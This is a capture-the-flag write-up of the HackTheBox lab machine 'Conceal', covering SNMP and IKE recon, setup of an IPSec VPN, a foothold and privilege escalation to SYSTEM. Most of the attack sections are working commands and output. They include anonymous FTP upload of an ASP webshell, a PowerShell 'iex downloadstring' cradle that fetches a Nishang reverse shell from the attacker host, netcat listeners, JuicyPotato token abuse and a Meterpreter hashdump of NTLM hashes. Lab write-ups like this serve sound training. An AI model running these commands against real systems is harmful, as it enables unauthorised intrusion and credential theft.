

# Conceal

## Machine Info


## Recon

### port (1)

- TCP

```console
└─╼$ sudo nmap -sT --min-rate 10000 -p- $IP -oA nmap/ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 18:01 HKT
Nmap scan report for 10.129.228.122
Host is up (0.18s latency).
All 65535 scanned ports on 10.129.228.122 are in ignored states.
Not shown: 65535 filtered tcp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 116.94 seconds
```

- UDP

```console
PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open          snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open          isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```

Above all, we can see that there are no TCP ports open (strange for a machine) and snmp & isakmp UDP ports open. So, the next step is do enumeration about snmp and isakmp (VPN: IPSec). The whole procedure is supposed to be collection information and then configure a IPSec VPN to be accessible to more TCP port.

### snmp

- snmpwalk: discover IKE VPN **PSK** (Pre-shared Key)
  - [online crack](https://md5decrypt.net/en/): `9C8B1A372B1878851BE2C097031B6E43:Dudecake1!`

```console
└─╼$ snmpwalk -v2c -c public 10.129.228.122 .
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: Intel64 Family 6 Model 85 Stepping 7 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (172012) 0:28:40.12
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
```

- snmp-check: able to see some open TCP ports

```console
[*] TCP connections and listening ports:

  Local address         Local port            Remote address        Remote port           State
  0.0.0.0               21                    0.0.0.0               0                     listen
  0.0.0.0               80                    0.0.0.0               0                     listen
  0.0.0.0               135                   0.0.0.0               0                     listen
  0.0.0.0               445                   0.0.0.0               0                     listen
  0.0.0.0               49664                 0.0.0.0               0                     listen
  0.0.0.0               49665                 0.0.0.0               0                     listen
  0.0.0.0               49666                 0.0.0.0               0                     listen
  0.0.0.0               49667                 0.0.0.0               0                     listen
  0.0.0.0               49668                 0.0.0.0               0                     listen
  0.0.0.0               49669                 0.0.0.0               0                     listen
  0.0.0.0               49670                 0.0.0.0               0                     listen
  10.129.228.122        139                   0.0.0.0               0                     listen
```

### IPSec VPN Connection

> IPSec, IKE components: SKEME, Oakley, ISAKMP
>
> Internet Key Exchange (IKE) is **a standard protocol used to set up a secure and authenticated communication channel between two parties via a virtual private network (VPN)**. The protocol ensures security for VPN negotiation, remote host and network access.
>
> [500/udp - Pentesting IPsec/IKE VPN - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting)
>
> [IKE Protocol Details of IPSec VPN](https://cshihong.github.io/2019/04/03/IPSec-VPN之IKE协议详解/), [Internet Key Exchange](https://www.techtarget.com/searchsecurity/definition/Internet-Key-Exchange)
>
> IPSec Configuration by `strongswan`:
> https://wiki.strongswan.org/projects/strongswan/wiki/ConfigurationExamples
> https://wiki.strongswan.org/projects/strongswan/wiki/ipsecconf
> https://docs.netgate.com/pfsense/en/latest/troubleshooting/ipsec.html

#### enum

**ike-scan**: discover IKE hosts and can also fingerprint them using the retransmission backoff pattern.

- **Security Association**
  - **Enc=3DES**: The encryption algorithm is 3DES (Triple Data Encryption Standard).
  - **Hash=SHA1**: The hashing algorithm is SHA1.
  - **Group=2:modp1024**: The DH (Diffie-Hellman) group is 2, also known as modp1024, used for key exchange.
  - **Auth=PSK**: The authentication method is PSK (Pre-Shared Key).
  - **LifeType=Seconds LifeDuration(4)=0x00007080**: Indicates that the SA's lifetime type is in seconds, with a duration represented by the hexadecimal number 0x00007080, which converts to 28800 seconds or 8 hours in decimal.

- **VID=...**: These are Vendor IDs, used to identify specific versions or features of the device or software implementing the VPN.
  - **Windows-8**: The target is a device running Windows 8.
  - **RFC 3947 NAT-T**: Indicates support for the NAT Traversal standard.
  - **IKE Fragmentation**: Shows support for IKE fragmentation.
  - **MS-Negotiation Discovery Capable**: Indicates the device is capable of discovering Microsoft's negotiation mechanisms.
  - **IKE CGA version 1**: Points out support for Cryptographically Generated Addresses (CGA) version 1.

```console
└─╼$ ike-scan -M 10.129.228.122 | tee ike-scan.out
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.228.122  Main Mode Handshake returned
        HDR=(CKY-R=07df2c0734ceda4d)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.199 seconds (5.03 hosts/sec).  1 returned handshake; 0 returned notify
```

#### config

Configure ipsec:

```console
/etc/ipsec.secrets
------------------
[man ipsec.secret]

192.168.0.1 %any : PSK "v+NkxY9LLZvwj4qCC2o/gGrWDF2d21jL"
10.129.228.122 %any : PSK "Dudecake1!"

/etc/ipsec.conf
---------------
[man ipsec.confg]

conn Conceal
		type=transport
		keyexchange=ikev1
		left=10.10.16.24
		leftprotoport=tcp
		right=10.129.22.130
		rightprotoport=tcp
		fragmentation=yes
		authby=psk
		esp=3des-sha1
		ike=3des-sha1-modp1024
		ikelifetime=8h
		auto=start
```

Modify tun0 interface's MTU setting: from 1500 default to 1000. Because, if mtu is 1500, then after wrapped with more layers (HTB OpenVPN & IPSec), actual unit size might > 1500, causing some network problems by `sudo ifconfig tun0 mtu 1000`.



Start IPSec VPN: `Conceal{1} established` means the VPN is correctly configured. Recheck by nmap.

```console
└─╼$ sudo ipsec start --nofork
Starting strongSwan 5.9.13 IPsec [starter]...
00[DMN] Starting IKE charon daemon (strongSwan 5.9.13, Linux 6.6.9-amd64, x86_64)
00[LIB] providers loaded by OpenSSL: legacy default
00[CFG] install DNS servers in '/etc/resolv.conf'
00[CFG] loading ca certificates from '/etc/ipsec.d/cacerts'
00[CFG] loading aa certificates from '/etc/ipsec.d/aacerts'
00[CFG] loading ocsp signer certificates from '/etc/ipsec.d/ocspcerts'
00[CFG] loading attribute certificates from '/etc/ipsec.d/acerts'
00[CFG] loading crls from '/etc/ipsec.d/crls'
00[CFG] loading secrets from '/etc/ipsec.secrets'
00[CFG]   loaded IKE secret for 10.129.228.122 %any
...
15[IKE] IKE_SA Conceal[1] established between 10.10.16.24[10.10.16.24]...10.129.228.122[10.129.228.122]
15[IKE] scheduling reauthentication in 27795s
15[IKE] maximum IKE_SA lifetime 28335s
15[ENC] generating QUICK_MODE request 2792242977 [ HASH SA No ID ID ]
15[NET] sending packet: from 10.10.16.24[500] to 10.129.228.122[500] (220 bytes)
01[NET] received packet: from 10.129.228.122[500] to 10.10.16.24[500] (188 bytes)
01[ENC] parsed QUICK_MODE response 2792242977 [ HASH SA No ID ID ]
01[CFG] selected proposal: ESP:3DES_CBC/HMAC_SHA1_96/NO_EXT_SEQ
01[IKE] CHILD_SA Conceal{1} established with SPIs cc468f5a_i 888b1348_o and TS 10.10.16.24/32[tcp] === 10.129.228.122/32[tcp]
```

```console
└─╼$ nmap -sT -p 445 -Pn $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 23:02 HKT
Nmap scan report for 10.129.228.122
Host is up (0.18s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

### port (2)

```console
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### path

```console
└─╼$ gobuster dir -u http://10.129.228.122/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 128 -b 400,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.122/
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   400,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 152] [--> http://10.129.228.122/upload/]
/Upload               (Status: 301) [Size: 152] [--> http://10.129.228.122/Upload/]
===============================================================
Finished
===============================================================
```


### ftp

Able to write and read inside FTP directory.

```console
└─╼$ ftp $IP
Connected to 10.129.228.122.
220 Microsoft FTP Service
Name (10.129.228.122:qwe): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49674|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

## Foothold

### FTP & Upload Dir

**Guess**: ftp dir = iis/upload dir

**POC**:

```console
ftp> put imqwe.asp
local: imqwe.asp remote: imqwe.asp
229 Entering Extended Passive Mode (|||49711|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************|    14       26.04 KiB/s    --:-- ETA
226 Transfer complete.
14 bytes sent in 00:00 (0.02 KiB/s)

------------------------------------------------------------------------------

└─╼$ curl http://10.129.228.122/upload/imqwe.asp
this is qwe.
```

After trying different file extensions, aspx is restricted while asp is ok. So, look forward to uploading asp command page into IIS server.

**Exploit**:

- https://github.com/tennc/webshell/blob/master/asp/webshell.asp
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1


As this is a powershell environment, upload NISHANG's Invoke-PowerShellTcp script to trigger a reverse shell.

```console
curl https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rev.ps1
echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.24 -Port 1234' >> rev.ps1

---------------------------------------------------------------------------------

shell.asp command:
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.24/rev.ps1')

---------------------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.228.122] 49734
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv> whoami
conceal\destitute
PS C:\Windows\SysWOW64\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

## Privilege Escalation

### enum

- **systeminfo**: Windows 10 Enterprise x64

```console
Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
System Type:               x64-based PC
```

- **privilege**: SeImpersonatePrivilege

### Juicy Potato

1. Download JuicyPotato.exe and bat file which can trigger reverse shell:

```console
└─╼$ ftp $IP
Connected to 10.129.22.130.
220 Microsoft FTP Service
Name (10.129.22.130:qwe): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put JuicyPotato.exe
local: JuicyPotato.exe remote: JuicyPotato.exe
229 Entering Extended Passive Mode (|||49693|)
125 Data connection already open; Transfer starting.
100% |****************|   339 KiB   45.39 KiB/s    00:00 ETA
226 Transfer complete.
347648 bytes sent in 00:08 (42.36 KiB/s)
ftp> put admin.bat
local: admin.bat remote: admin.bat
229 Entering Extended Passive Mode (|||49695|)
125 Data connection already open; Transfer starting.
100% |****************|    90      139.50 KiB/s    --:-- ETA
226 Transfer complete.
90 bytes sent in 00:00 (0.15 KiB/s)

└─╼$ cat admin.bat
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.24/rev.ps1')
```

2. Check Win10 Enterprise x64's SID, [Ref](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/).

```console
XblGameSave	{C5D3C0E1-DC41-4F83-8BA8-CC0D46BCCDE3}	{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}	NT AUTHORITY\SYSTEM
```

3. Exploit: use juicypotato to trigger a system-priv reverse shell.

```console
PS C:\qwe> ./JuicyPotato.exe -t * -p admin.bat -l 2333 -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 2333
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------------------

└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.22.130 - - [21/Feb/2024 01:09:43] "GET /rev.ps1 HTTP/1.1" 200 -

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.130] 49706
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

4. MSF usage

```console
PS C:\qwe> ./JuicyPotato.exe -t * -p admin.exe -l 2333 -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 2333
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------------------

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.24:6666
[-] Meterpreter session 1 is not valid and will be closed
[*] 10.129.22.130 - Meterpreter session 1 closed.
[*] Sending stage (200774 bytes) to 10.129.22.130
[*] Meterpreter session 2 opened (10.10.16.24:6666 -> 10.129.22.130:49729) at 2024-02-21 01:50:10 +0800
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cfae93e238dd61819cb9ab492a31cf06:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Destitute:1001:aad3b435b51404eeaad3b435b51404ee:213d5b0f252d57b6ede6b74ba7ba04b2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Another PrivEsca Method

> An elevation of privilege vulnerability exists when Windows improperly handles calls to Advanced Local Procedure Call (ALPC), aka "Windows ALPC Elevation of Privilege Vulnerability." This affects Windows 7, Windows Server 2012 R2, Windows RT 8.1, Windows Server 2008, Windows Server 2012, Windows 8.1, Windows Server 2016, Windows Server 2008 R2, Windows 10, Windows 10 Servers.

ALPC SCHEDULER LPE

- https://nvd.nist.gov/vuln/detail/CVE-2018-8440
- https://googleprojectzero.blogspot.com/2018/04/windows-exploitation-tricks-exploiting.html

## Exploit Chain

port scan: no tcp, only udp -> ike protocol found -> ike recon: sa, config details -> strongswan config of IPSec -> port scan again: ftp & iis upload dir -> upload asp webshell -> nishang's invoke-powershelltcp -> ps revshell -> user shell with SeImpersonatePrivilege -> JuicyPotato usage -> system shell
